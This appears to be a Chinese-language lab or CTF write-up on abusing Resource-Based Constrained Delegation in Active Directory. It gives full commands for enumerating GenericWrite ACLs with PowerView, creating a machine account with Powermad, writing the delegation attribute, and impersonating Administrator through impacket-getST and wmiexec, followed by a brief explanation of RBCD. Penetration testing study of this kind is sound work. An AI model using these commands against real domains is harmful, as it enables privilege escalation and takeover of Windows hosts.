 <!-- https://blog.csdn.net/longlangci/article/details/131686439 -->

- 前提: `GenericWrite` 权限

```bash
# 1. 枚举一下当前用户（lixiuying）对当前机器的DACL。
Import-Module .\PowerView.ps1
Get-DomainUser -Identity lixiuying -Properties objectsid
Get-DomainObjectAcl -Identity XR-0687 | ?{$_.SecurityIdentifier -match "S-1-5-21-3745972894-1678056601-2622918667-1131"}
## 看到 GenericWrite 权限 可以修改 XR-0687的任何属性, 可通过 RBCD 提权.
```

- 2.PowerMad 创建新的计算机账号 Test1$，密码 Test1234。

```ps1
Import-Module .\Powermad.ps1
# 设置机器账户的密码
$Password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
# 通过Net-MachineAccount函数创建机器账户
New-MachineAccount -MachineAccount "Test1" -Password $($Password) -Domain "xiaorang.lab" -DomainController "XR-DC01.xiaorang.lab" -verbose
```

- 3.通过 PowerView1 设置RBCD (Test1 到 XR-0687 的基于资源的约束性委派)

```ps1
# 将Test1的SID添加到XR-0687这台计算机对象的msDS-AllowedToActOnBehalfOfOtherIdentity属性中。

Import-Module .\PowerView.ps1
# 获取Test1账户的 SID
Get-NetComputer "Test1" -Properties objectsid
# 尝试配置Test1到XR-0687的基于资源的约束性委派
$A = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3745972894-1678056601-2622918667-1147)"
$SDBytes = New-Object byte[] ($A.BinaryLength)
$A.GetBinaryForm($SDBytes, 0)
Get-DomainComputer XR-0687 | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose
# 查看是否配置成功
Get-DomainComputer XR-0687 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

# 4.用 Test1 账户申请 XR-0687 机器上的CIFS服务的高权限票据。
```ps1
sudo vim /etc/hosts # 配置ipo
172.22.15.35 XR-0687.xiaorang.lab
proxychains4 impacket-getST xiaorang.lab/Test1\$:Test1234 -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator

# 使用申请的票据获取XR-0687这台机器的本地管理员权限。
export KRB5CCNAME=Administrator.ccache
proxychains4 impacket-wmiexec -k xiaorang.lab/Administrator@XR-0687.xiaorang.lab -no-pass
```

# 介绍

基于资源的约束委派

- 基于资源的约束委派 (Resource-Based Constrained Delegation， RBCD) 是在 Windows Server 2012 中新引入的功能。与传统的约束委派相比，它将设置委派的权限交换给了服务资源自身，也就是说服务自己可以决定“谁可以对我进行委派”。基于资源的约束委派的关键在于 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的设置。
